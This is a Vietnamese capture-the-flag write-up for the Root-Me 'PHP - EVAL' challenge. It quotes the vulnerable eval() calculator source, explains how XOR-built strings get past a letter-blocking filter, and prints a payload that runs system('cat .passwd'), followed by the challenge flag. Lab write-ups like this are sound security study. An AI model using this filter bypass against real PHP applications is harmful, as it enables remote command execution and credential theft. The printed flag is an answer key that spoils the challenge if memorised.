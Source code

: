 # PHP - EVAL

## Mô tả
Link: 
>https://www.root-me.org/en/Challenges/Web-Server/PHP-Eval

Category: Web, 40 points

Giao diện chính

![image](https://user-images.githubusercontent.com/72856776/115710947-258b2100-a39d-11eb-98a3-d4ea0a9adb1f.png)
## Hint
`Note : the flag is in .passwd file.`
## Source Code
```php
<html>
<head>
</head>
<body>
 
<h4> PHP Calc </h4>
 
<form action='index.php' method='post'>
    <input type='text' id='input' name='input' />
    <input type='submit' />
<?php
 
if (isset($_POST['input'])) {
    if(!preg_match('/[a-zA-Z`]/', $_POST['input'])){
        print '<fieldset><legend>Result</legend>';
        eval('print '.$_POST['input'].";");
        print '</fieldset>';
    }
    else
        echo "<p>Dangerous code detected</p>";
}
?>
</form>
</body>
</html>
```
## Phương pháp
Sau khi đọc Hint mình nghĩ flag sẽ nằm trong file .passwd vì vậy ta cần phải "cat" được nó, bằng cách sử dụng hàm system. Nhưng nhìn vào source ta sẽ thấy, cần phải bypass được hàm preg_match để thực hiên được hàm system thông qua hàm eval. Để thực hiện được điều đó ta cần viết được payload có thể bypass các filter trên `[a-zA-Z]`.

Sau khi tham khảo một số nguồn thì mình tìm được 1 link viết khá đầy đủ về ý tưởng bypass filter này
>https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/

Trong này sẽ nêu ra 2 phương pháp. Nhưng sau khi đọc và được hướng dẫn thì mình quyết định sử dụng phương pháp sử dụng hàm XOR trong PHP. Về cơ bản thì hàm này sẽ XOR 2 kí tự với nhau để trả về 1 kí tự khác. Vì vậy ta có thể sử dụng chữ số hoặc kí tự đặc biệt để XOR ra những từ ta cần dùng trong viết code (cũng vì thế mà code sẽ nhìn khá cục súc).

Đây là code mình sử dụng để bypass chall này
```php
<?php
$_= ("3934%@"^"@@@@@-");      //$_= system;
$__= ("@@4"^"#!@");           //$__= cat;
$___= (".!337$"^"^@@@@@");    //$___= passwd;
$____= ("$__ .$___");         //$____= cat .passwd;
$_($____);                    //system(cat .passwd);
?>
```
Sau khi submit, server sẽ trả về cho ta kết quả

![image](https://user-images.githubusercontent.com/72856776/115714080-f080cd80-a3a0-11eb-88e7-edc35123cae6.png)

Mình cũng không rõ cái system nó ở đâu ra nên đã mặc kệ :v 
## Flag
>C0_l4m_th1_m01_c0_4n
